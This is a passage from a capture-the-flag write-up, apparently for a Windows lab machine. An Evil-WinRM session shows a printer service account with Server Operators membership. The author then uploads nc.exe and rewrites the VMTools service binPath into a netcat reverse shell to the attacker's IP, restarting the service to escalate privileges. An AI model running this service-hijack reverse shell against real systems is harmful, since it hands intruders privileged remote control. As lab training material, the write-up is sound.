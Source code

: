 ```bash
```
{: .nolineno}
{: .nolineno}

Since this user is a part of BUILTIN\Server Operators Group , Lets verify once more →

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Documents> net user svc-printer
User name                    svc-printer
Full Name                    SVCPrinter
Comment                      Service Account for Printer
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/26/2021 12:15:13 AM
Password expires             Never
Password changeable          5/27/2021 12:15:13 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   1/20/2024 11:27:04 AM

Logon hours allowed          All

Local Group Memberships      *Print Operators      *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-printer\Documents>
```
{: .nolineno}
{: .nolineno}

So I have privilege to modify the configuration of a running service like this →

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Documents> services
```
{: .nolineno}
{: .nolineno}

![Untitled](Return/Untitled%205.png)

Lets modify the config path of this service VMTools like this :

```bash
upload /usr/share/windows-binaries/nc.exe
sc.exe config VMTools binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.16.29 445"
sc.exe stop VMTools
sc.exe start VMTools
```
{: .nolineno}
{: .nolineno}
